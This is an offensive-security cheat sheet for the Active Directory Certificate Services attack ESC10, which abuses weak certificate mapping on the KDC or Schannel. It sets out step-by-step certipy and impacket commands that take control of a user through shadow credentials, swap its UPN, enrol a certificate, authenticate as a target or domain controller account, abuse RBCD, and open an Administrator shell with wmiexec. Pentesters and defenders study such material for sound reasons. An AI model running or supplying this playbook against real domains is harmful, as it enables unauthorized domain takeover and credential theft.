 # ESC10—Weak Certificate Mapping via KDC/Schannel Registry Misconfiguration

## Theory

Two registry-driven misconfigurations can relax certificate-to-account binding:

- **Case 1 (Kerberos/KDC):** `StrongCertificateBindingEnforcement=0` on the KDC causes weak mapping during PKINIT. If you set a controlled user’s UPN to the target’s UPN, any **client-auth** cert you enroll as the controlled user will map to the target.
- **Case 2 (Schannel/LSASS):** `CertificateMappingMethods=0x4` enables weak UPN mapping for Schannel (LDAPS/WinRM HTTPS/etc.). Same UPN swap idea, but you must authenticate via Schannel (not PKINIT). You can then leverage LDAP operations (e.g., create a machine account, set RBCD) to escalate.

## Requirements

### Case 1—Kerberos

- `HKLM\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement = 0` (only effective if Apr 2023 KDC hardening updates are not installed).
- At least one template with **Client Authentication** EKU (e.g., `User`).
- **GenericWrite/GenericAll** over a controlled user `<CONTROLLED_USER>` to rewrite its UPN to `<TARGET_UPN>`.

### Case 2—Schannel

- `HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\CertificateMappingMethods = 0x4`.
- At least one **Client Authentication** template (e.g., `User`).
- **GenericWrite/GenericAll** over `<CONTROLLED_USER>`. Target account `<TARGET_USER>` should **not** already have a UPN (e.g., machine accounts like `<DC_HOSTNAME>$` or the built-in Administrator) to avoid constraint violations.

### Placeholders

`<DOMAIN>` `<FOREST_DN>` `<DC_IP>` `<CA_NAME>` `<USER>` `<PASS>` `<CONTROLLED_USER>` `<CONTROLLED_PASS>` `<CONTROLLED_HASH>` `<CONTROLLED_UPN>` `<TARGET_USER>` `<TARGET_UPN>` `<DC_HOSTNAME>` `<PFX_FILE>` `<TARGET_HOST_FQDN>` `<ADMIN_USER>` `<ADMIN_PASS>` 

---

## Linux

### Enumerate Registry (optional, as Admin only)

```bash
# Case 1 (KDC)
reg.py '<DOMAIN>/<ADMIN_USER>':'<ADMIN_PASS>'@<DC_IP> query -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Kdc'

# Case 2 (Schannel)
reg.py '<DOMAIN>/<ADMIN_USER>':'<ADMIN_PASS>'@<DC_IP> query -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL'
```

# Enumerate Vulnerable Templates

```bash
# Find client-auth templates and check general AD CS exposure
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
```

### Gain/Use Control of <CONTROLLED_USER> (example: Shadow creds)

```bash
certipy shadow auto -u '<USER>@<DOMAIN>' -p '<PASS>' -account <CONTROLLED_USER>
# => yields a TGT/NT hash for <CONTROLLED_USER> (no password change)
```

---

### Case 1—Kerberos (PKINIT)

1. **Set `<CONTROLLED_USER>` UPN to `<TARGET_UPN>`**

```bash
certipy account update -u '<USER>@<DOMAIN>' -p '<PASS>' -user <CONTROLLED_USER> -upn '<TARGET_UPN>'
# Eg ADMIN_USER@<DOMAIN>
```

1. **Request client-auth cert as `<CONTROLLED_USER>`**

```bash
# Use password OR NT hash from shadow creds
certipy req -u '<CONTROLLED_USER>@<DOMAIN>' -p '<CONTROLLED_PASS>' \
  -dc-ip <DC_IP> -ca '<CA_NAME>' -template 'User' -out '<PFX_FILE>'
# or
certipy req -u '<CONTROLLED_USER>@<DOMAIN>' -hashes <CONTROLLED_HASH> \
  -dc-ip <DC_IP> -ca '<CA_NAME>' -template 'User' -out '<PFX_FILE>'
# Expect UPN in output: '<TARGET_UPN>'
```

1. **Revert `<CONTROLLED_USER>` UPN**

```bash
certipy account update -u '<USER>@<DOMAIN>' -p '<PASS>' -user <CONTROLLED_USER> -upn '<CONTROLLED_UPN>'
```

1. **Authenticate as `<TARGET_USER>` via PKINIT**

```bash
certipy auth -pfx '<PFX_FILE>.pfx' -domain <DOMAIN> -dc-ip <DC_IP>
# => saves <TARGET_USER>.ccache and may print NT hash
```

1. **Use TGT**

```bash
KRB5CCNAME=<TARGET_USER>.ccache wmiexec.py -k -no-pass <TARGET_HOST_FQDN>
```

---

### Case 2—Schannel (LDAPS)

1. **Set `<CONTROLLED_USER>` UPN to DC machine account UPN**

```bash
certipy account update -u '<USER>@<DOMAIN>' -p '<PASS>' -user <CONTROLLED_USER> -upn '<DC_HOSTNAME>$@<DOMAIN>'
```

1. **Request client-auth cert as `<CONTROLLED_USER>`**

```bash
certipy req -u '<CONTROLLED_USER>@<DOMAIN>' -hashes <CONTROLLED_HASH> \
  -dc-ip <DC_IP> -ca '<CA_NAME>' -template 'User' -out '<PFX_FILE>'
# Expect UPN: '<DC_HOSTNAME>$@<DOMAIN>'
```

1. **Revert `<CONTROLLED_USER>` UPN**

```bash
certipy account update -u '<USER>@<DOMAIN>' -p '<PASS>' -user <CONTROLLED_USER> -upn '<CONTROLLED_UPN>'
```

1. **Authenticate over Schannel (LDAPS) and abuse LDAP**

```bash
certipy auth -pfx '<PFX_FILE>' -domain <DOMAIN> -dc-ip <DC_IP> -ldap-shell
# In the LDAP shell:
# add_computer <NEW_COMPUTER_SAM> <NEW_COMPUTER_PASS>
# set_rbcd <DC_HOSTNAME>$ <NEW_COMPUTER_SAM>
```

1. **Use RBCD to impersonate**

```bash
getST.py -spn cifs/<DC_HOSTNAME>.<DOMAIN> -impersonate Administrator -dc-ip <DC_IP> \
  <DOMAIN>/'<NEW_COMPUTER_SAM>$':<NEW_COMPUTER_PASS>
# => Administrator.ccache
KRB5CCNAME=Administrator.ccache wmiexec.py -k -no-pass <DC_HOSTNAME>.<DOMAIN>
```

---

## Windows (optional Workflow notes)

- If needed, create a logon/session as `<CONTROLLED_USER>` (RDP / “Run as different user” / RunasCS) to run template enrollment tools locally.
- For enumeration of templates or AD rights, reuse PowerView/Certify approaches from previous techniques (ESC9).
